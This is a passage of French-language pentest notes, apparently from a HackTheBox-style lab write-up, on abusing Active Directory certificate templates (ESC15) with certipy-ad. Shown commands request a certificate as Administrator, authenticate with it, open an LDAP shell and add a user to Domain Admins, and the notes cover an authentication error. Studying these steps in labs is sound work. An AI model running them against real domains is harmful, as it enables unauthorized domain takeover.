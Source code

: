 
```bash
# Demander un certificat avec un UPN spécifique
certipy-ad req -u <USERNAME>@<DOMAIN> -p '<PASSWORD>' -dc-ip <IP> -ca <CA_NAME> -template <TEMPLATE> -upn <TARGET_UPN> -application-policies 'Client Authentication'
# Exemple :
certipy-ad req -u john@tombwatcher.htb -p 'aad3b435b51404eeaad3b435b51404ee:ad9324754583e3e42b55aad4d3b8d2bf' -dc-ip 10.129.249.14 -ca tombwatcher-CA-1 -template WebServer -upn Administrator@tombwatcher.htb -application-policies 'Client Authentication'
```

Notes :

- `ESC15` exploite la possibilité d’ajouter Client Authentication via `-application-policies` sur des templates avec `Schema Version=1`.
    
- Vérifiez les droits d’enrollment avec `certipy-ad find` avant de demander un certificat.
    

**Authentification avec un certificat**

- **Objectif** : Utiliser un certificat pour s’authentifier et obtenir un accès privilégié.
    
- **Outil** : `certipy-ad auth`.
    

```bash
# Authentification avec un certificat PFX
certipy-ad auth -pfx <CERT_FILE> -dc-ip <IP> -ldap-shell
# Exemple :
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.249.14 -ldap-shell
# Dans l’interface LDAP :
add_user_to_group <USERNAME> "Domain Admins"
# Exemple :
add_user_to_group john "Domain Admins"
```

Notes :

- L’option` -ldap-shell` permet d’interagir directement avec l’AD pour modifier des objets (par exemple, ajouter un utilisateur à Domain Admins).
    
- Si l’authentification échoue, vérifiez les erreurs comme `KDC_ERR_PADATA_TYPE_NOSUPP`.
    

---

**Gestion des erreurs de certificat**

Erreur` KDC_ERR_PADATA_TYPE_NOSUPP`

- **Problème** : Cette erreur survient lorsque le KDC `ne` supporte pas le type de pré-authentification requis pour l’authentification par certificat (souvent liée à `PKINIT`).
    
- **Contexte** : Observé lors de l’utilisation de certipy-ad auth avec un certificat PFX.
    

```bash
# Exemple d’erreur
certipy-ad auth -pfx administrator.pfx -dc-ip 10.8.0.2
# Résultat :
# [-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

